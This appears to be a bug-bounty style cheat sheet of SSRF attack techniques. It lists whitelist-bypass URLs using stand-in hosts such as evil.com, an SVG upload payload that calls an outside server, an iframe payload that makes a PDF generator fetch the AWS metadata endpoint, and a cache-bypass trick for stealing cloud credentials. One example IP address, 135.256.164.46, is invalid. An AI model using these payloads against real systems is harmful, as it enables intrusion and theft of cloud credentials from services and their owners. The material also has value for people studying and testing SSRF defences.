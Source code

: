 
 - There was parameter named stockAPI=******  so we tried http://localhost/admin (by this api Authentication is bypassed)


 - if above is blocked Then we can use private ip bypass https://135.256.164.46(last octet can be changeable)/admin 
<br></br>
- SSRF with whitelist filter

	```
	-> We can use https://ex.com@evil.com
	-> https://evil-one#expected-one
	-> https://expected.evil
	-> We can use URL encode 
	-> use combination https://127.1:80%2523@expectedone.net
	```

-> http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/[INJECTION PAYLOAD]


-	SSRF with svg upload

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="30" width="30" xlink:href="http://myserver:1337/" /></svg>
```

- Jira SSRF leading to AWS info disclosure - https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance

- SSRF URL for Google Cloud
   Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"
<br></br>
- SSRF -> AWS Metadata Service — $1,000
 
 One application allowed for exporting a couple different things to PDF, including a user’s resume.
 Many PDF generators use an HTML -> PDF conversion, and by entering in some HTML code, you may be able 
 to get the application to run that code on the server side.

 By injecting 
	```
	<iframe src="http://169.254.169.254/latest/meta-data"> 
	```
in the user’s resume, 
 the application then runs that when generating the PDF. In this case, the server made a request to the 
 AWS metadata service, and displayed that iframe in the PDF that was exported, allowing us to steal AWS credentials!
<br></br>
- SSRF to gain aws cred but cache layer is problem

   - when he searched ip in whois he found that ip is of aws so aws cred by ssrf is next . He made call for url http://169.254.169.254/latest/meta-data     
    - after req he found out 200 ok but no result in header there was header "x-proxy-cache:hit" it means that req hit first cache layer 
    - He first tried to understand cache layer and understood that if url?a.html then it will apply caching rule and hit the cache but url/a.html? then caching rule will not be applied so he changed that aws url with url? to bypass and 
    gain all creds.       
